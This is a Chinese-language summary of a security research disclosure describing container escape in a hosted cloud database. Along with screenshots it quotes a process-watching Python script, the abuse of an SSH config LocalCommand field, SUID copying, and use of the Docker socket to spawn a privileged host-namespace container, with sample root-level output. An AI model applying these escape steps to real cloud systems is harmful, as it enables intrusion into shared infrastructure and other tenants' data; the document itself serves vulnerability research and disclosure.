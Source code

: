 #### 容器逃逸

拿到数据库容器`root`权限后，文章作者通过阿里云站点的开启`SSL`加密功能，发现会创建`SCP`和`SSH`等进程，并且利用进程完成了容器逃逸至宿主机（K8s node）。

开启`SSL`加密时，会产生进程的证明

```
# Command lines of the spawned processes
su - adbpgadmin -c scp /home/adbpgadmin/xxx_ssl_files/* 
*REDACTED*:/home/adbpgadmin/data/master/seg-1/ 

/usr/bin/ssh -x -oForwardAgent=no -oPermitLocalCommand=no -oClearAllForwardings=yes 
-- *REDACTED* scp -d -t /home/adbpgadmin/data/master/seg-1/ 
```

文章作者发现，这些进程在命令行中包含了容器不存在的路径，因此推断这些进程是在和数据库容器共享`PID namespace`的容器中生成的。

```
# The Python script we used to access the second container filesystem
import psutil 
import os 
listed = set() 
while True: 
    for proc in psutil.process_iter(): 
        try: 
            processName = proc.name() 
            processID = proc.pid 
            cmdLine = proc.cmdline() 
            if processID not in listed and processName == 'scp': 
                os.system('ls -alh /proc/{}/root/'.format(processID)) 

                listed.add(processID) 
        except (psutil.NoSuchProcess, psutil.AccessDenied, psutil.ZombieProcess):
          pass 
```

根据推测作者编写了这个`Python`脚本，先等待`SCP`进程生成，由于`SCP`进程会以当前数据库用户`adbpgadmin`u运行，因此进程生成后，可以通过`/proc/{pid}/root/`访问其文件系统。通过访问文件系统，发现`SCP`进程确实在第二个容器中运行，并且发现，两个容器都挂载了相同的`home`目录`/home/adbpgadmin`。

因为共享了`/home/adbpgadmin`，并且每次重新启用`SSL`都会执行`SSH`命令，可以通过修改本地`SSH`配置文件`/home/adbpgadmin/.ssh/config`的`LocalCommand`字段，来在第二个容器中，执行任意命令。

![img](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/1681857662-screenshot-2023-04-18-at-15-40-42.png)

接下来就可以通过将`SUID`复制到共享目录下，来让我们能够在第二个容器提权到`root`。

![img](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/1681857693-screenshot-2023-04-18-at-15-41-19.png)

在第二个容器中，发现此容器是特权容器，除此之外容器也可以访问`Docker Unix Socket`(`/run/docker.sock`)。由于第二个容器是临时创建，用于启动`SSL`加密的，存活时间较短，可以用 `Docker Unix Socket`来运行一个持久的特权容器。这个容器和宿主机（K8s node）具有相同的`PID`，`IPC`，`UST`，`NET`，`USER`和`MOUNT`命名空间，宿主机的根目录挂载在`/mnt`。这个容器会一直存在，并且通过`/home/adbpgadmin`的共享管道接收来自数据库容器的命令。

因为共享了网络命令空间，新生成的容器可以逃逸到宿主机（K8s node），并且能够访问`K8s API`。并且能够避免共享命名管道，在允许出网的情况下完成反弹Shell。

```
# Code execution inside the new privileged container 
$: echo ‘id’ > /home/adbpgadmin/i_pipe; timeout 1 cat /home/adbpgadmin/o_pipe 
uid=0(root) gid=0(root) groups=10(wheel) 

# Accessing the host filesystem from the new privileged container
$: echo ‘ls -alh /mnt’ > /home/adbpgadmin/i_pipe; timeout 2 cat /home/adbpgadmin/o_pipe 
total 88 
dr-xr-xr-x   23 root     root        4.0K Nov  6 10:07 . 
drwxr-xr-x    1 root     root        4.0K Nov  7 15:54 .. 
drwxr-x---    4 root     root        4.0K Nov  6 10:07 .kube 
lrwxrwxrwx    1 root     root           7 Aug 29  2019 bin -> usr/bin 
dr-xr-xr-x    5 root     root        4.0K Nov  2 10:21 boot 
drwxr-xr-x   17 root     root        3.1K Nov  6 10:08 dev 
drwxr-xr-x   84 root     root        4.0K Nov  6 10:08 etc 
```